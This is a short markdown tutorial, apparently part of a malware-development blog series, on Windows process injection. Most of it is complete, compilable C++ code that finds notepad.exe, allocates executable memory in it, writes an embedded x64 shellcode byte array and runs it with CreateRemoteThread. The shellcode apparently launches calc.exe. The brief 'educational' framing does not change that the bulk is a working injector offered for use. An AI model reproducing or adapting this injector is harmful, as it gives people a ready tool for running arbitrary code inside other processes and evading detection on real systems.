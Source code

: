 ```yaml
---
title: "Part 2: Process Injection Guide"
date: 2025-10-27
tags: ["maldev", "shellcode", "injection", "security-research"]
---
```


# Process Injection Guide

> **Educational Notes**: A structured guide to understanding process injection fundamentals

## Table of Contents

- [Overview](#overview)
- [What is Process Injection?](#what-is-process-injection)
- [Implementation Steps](#implementation-steps)
- [Code Examples](#code-examples)
- [Complete Implementation](#complete-implementation)

---

## Overview

Process injection is a technique used to execute code within the address space of another process. This is commonly used in malware development for educational and defensive security research purposes.

---

## What is Process Injection?

**Process injection** is a method of executing arbitrary code in the address space of a separate live process. This allows injected code to run under the security context of another process, potentially evading detection.

---

## Implementation Steps

Building a basic process injector requires several steps:

| Step | Action                     | Windows API              |
|------|----------------------------|--------------------------|
| **1** | Get Process ID             | `CreateToolhelp32Snapshot()` |
| **2** | Allocate remote memory     | `VirtualAllocEx()`       |
| **3** | Write shellcode to memory  | `WriteProcessMemory()`   |
| **4** | Create remote thread       | `CreateRemoteThread()`   |

### Detailed Process

1. **Get Process ID** – Use `tlhelp32.h` to enumerate processes and find the target
2. **Memory Allocation** – Use `VirtualAllocEx()` with `PAGE_EXECUTE_READWRITE` permissions
3. **Write Process** – Write the shellcode to the allocated memory
4. **Remote Thread** – Create a new thread in the remote process to execute the shellcode

---

## Code Examples

### Required Headers

```cpp
#include <windows.h>
#include <iostream>
#include <tlhelp32.h>
```

### Basic Implementation of GetProcessId

```cpp
DWORD GetProcessId(const std::wstring& processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32W pe32;
    pe32.dwSize = sizeof(PROCESSENTRY32W);
    if (Process32FirstW(hSnapshot, &pe32)) {
        do {
            if (_wcsicmp(pe32.szExeFile, processName.c_str()) == 0) {
                CloseHandle(hSnapshot);
                return pe32.th32ProcessID;
            }
        } while (Process32NextW(hSnapshot, &pe32));
    }
    CloseHandle(hSnapshot);
    return 0;
}
```

### Main Implementation Pattern

```cpp
int main() {
    std::wstring targetProcessName = L"notepad.exe";
    DWORD processId = GetProcessId(targetProcessName);
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
    LPVOID remoteAddr = VirtualAllocEx(hProcess, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, remoteAddr, buf, sizeof(buf), NULL);
    CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteAddr, NULL, 0, NULL);
    CloseHandle(hProcess);
}
```

> **Tip**: Always validate process handles and check for NULL returns to handle failures gracefully

---

## Complete Implementation

The following demonstrates a **working example** that implements all the concepts above:

```cpp
#include <windows.h>
#include <iostream>
#include <tlhelp32.h>

unsigned char buf[] = {
    0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
    0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52,
    0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
    0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0xE2, 0xED,
    0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,
    0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
    0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48,
    0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1,
    0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
    0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
    0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A,
    0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
    0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B,
    0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
    0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
    0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x2E,
    0x65, 0x78, 0x65, 0x00
};

DWORD GetProcessId(const std::wstring& processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32W pe32;
    pe32.dwSize = sizeof(PROCESSENTRY32W);
    if (Process32FirstW(hSnapshot, &pe32)) {
        do {
            if (_wcsicmp(pe32.szExeFile, processName.c_str()) == 0) {
                CloseHandle(hSnapshot);
                return pe32.th32ProcessID;
            }
        } while (Process32NextW(hSnapshot, &pe32));
    }
    CloseHandle(hSnapshot);
    return 0;
}

int main() {
    std::wstring targetProcessName = L"notepad.exe";
    DWORD processId = GetProcessId(targetProcessName);

    if (processId == 0) {
        std::cout << "Process not found!" << std::endl;
        return -1;
    }

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);

    if (hProcess == NULL) {
        std::cout << "Failed to open process!" << std::endl;
        return -1;
    }

    LPVOID remoteAddr = VirtualAllocEx(hProcess, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (remoteAddr == NULL) {
        std::cout << "Failed to allocate memory!" << std::endl;
        CloseHandle(hProcess);
        return -1;
    }

    WriteProcessMemory(hProcess, remoteAddr, buf, sizeof(buf), NULL);
    CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteAddr, NULL, 0, NULL);

    CloseHandle(hProcess);

    std::cout << "Injection successful!" << std::endl;
    return 0;
}
```

---

## Security Considerations

This technique is commonly used by malware but is also essential knowledge for:
- Security researchers
- Penetration testers
- Defensive security professionals
- Malware analysts

Always use this knowledge responsibly and only in authorized environments.

---
